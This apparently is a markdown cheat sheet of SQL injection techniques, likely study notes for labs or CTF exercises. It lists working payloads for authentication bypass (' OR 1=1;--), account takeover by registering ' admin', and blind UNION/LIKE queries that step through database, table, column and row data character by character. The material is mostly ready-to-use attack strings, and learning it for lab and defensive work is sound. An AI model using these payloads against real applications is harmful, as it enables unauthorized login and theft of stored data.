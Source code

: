 
---

#  SQL Injection

add a space character before registering a new account to gain the same read/write permissions as an account with the same name
```
'admin' --> is a registered account username
you create the username ' admin' to gain the same rights 
```
### In Band Authentication bypass
~~~
' OR 1=1;--
or
email@email.com' --  
~~~

`bob' AND 1=1--` would update Bob's record, while `bob' AND 1=2--` would not. This demonstrates the SQL injection vulnerability without putting the entire table's records at risk.
### Boolean Return
```SQL
' UNION SELECT 1;--
' UNION SELECT 1,2;--
' UNION SELECT 1,2,3;--
```
enumerates the correct number of columns in the query table

```
' UNION SELECT 1,2,3 where database() like '%';--
```
enumerates database name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.tables 
WHERE table_schema = '[[DATABASE NAME]]' and table_name like 'a%';--
```
enumerates table name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%';--
```
enumerates column name by scrolling through the wildcard '%' values

```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
WHERE TABLE_SCHEMA='[[DATABASE_NAME]]' and TABLE_NAME='[[TABLE_NAME]]' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id'	
```
Again you'll need to cycle through letters, numbers and characters until you find a match. 
>As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name,

```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]] like 'a%
```
cycles through valid column name entries
```
' UNION SELECT 1,2,3 from [[TABLE_NAME]] where [[COLUMN_NAME]]='[[VALID_ENTRY]]' and [[OTHER_COLUMN_NAME]] like 'a%
```
cycles through row entry data
